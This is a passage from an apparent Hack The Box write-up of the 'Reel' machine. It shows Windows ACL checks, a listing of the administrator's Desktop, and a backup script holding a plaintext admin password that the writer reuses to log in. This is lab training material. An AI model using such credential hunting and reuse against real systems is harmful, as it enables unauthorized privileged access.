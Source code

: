 We can then check the ACLs of the `C:\users\administrator` directory:

```
claire@REEL C:\Users>icacls Administrator                                                    
Administrator NT AUTHORITY\SYSTEM:(OI)(CI)(F)                                                
              HTB\Backup_Admins:(OI)(CI)(F)                                                  
              HTB\Administrator:(OI)(CI)(F)                                                  
              BUILTIN\Administrators:(OI)(CI)(F)                                             

Successfully processed 1 files; Failed processing 0 files
```

We can view the files present in the Desktop, but we cannot read the root flag.

```
claire@REEL C:\Users\Administrator\Desktop>dir                                               
 Volume in drive C has no label.                                                             
 Volume Serial Number is CEBA-B613                                                           

 Directory of C:\Users\Administrator\Desktop                                                 

01/21/2018  03:56 PM    <DIR>          .                                                     
01/21/2018  03:56 PM    <DIR>          ..                                                    
11/02/2017  10:47 PM    <DIR>          Backup Scripts                                        
06/16/2023  02:28 AM                34 root.txt
```

The Backup Scripts folder contains some interesting files, and one contains the admin password:

```
claire@REEL C:\Users\Administrator\Desktop\Backup Scripts>dir                                
 Volume in drive C has no label.                                                             
 Volume Serial Number is CEBA-B613                                                           

 Directory of C:\Users\Administrator\Desktop\Backup Scripts                                  

11/02/2017  10:47 PM    <DIR>          .                                                     
11/02/2017  10:47 PM    <DIR>          ..                                                    
11/04/2017  12:22 AM               845 backup.ps1                                            
11/02/2017  10:37 PM               462 backup1.ps1                                           
11/04/2017  12:21 AM             5,642 BackupScript.ps1                                      
11/02/2017  10:43 PM             2,791 BackupScript.zip                                      
11/04/2017  12:22 AM             1,855 folders-system-state.txt                              
11/04/2017  12:22 AM               308 test2.ps1.txt

claire@REEL C:\Users\Administrator\Desktop\Backup Scripts>type BackupScript.ps1              
# admin password                                                                             
$password="Cr4ckMeIfYouC4n!"
<TRUNCATED>
```

We can then login as the administrator user:

<figure><img src="../../../.gitbook/assets/image (1875).png" alt=""><figcaption></figcaption></figure>
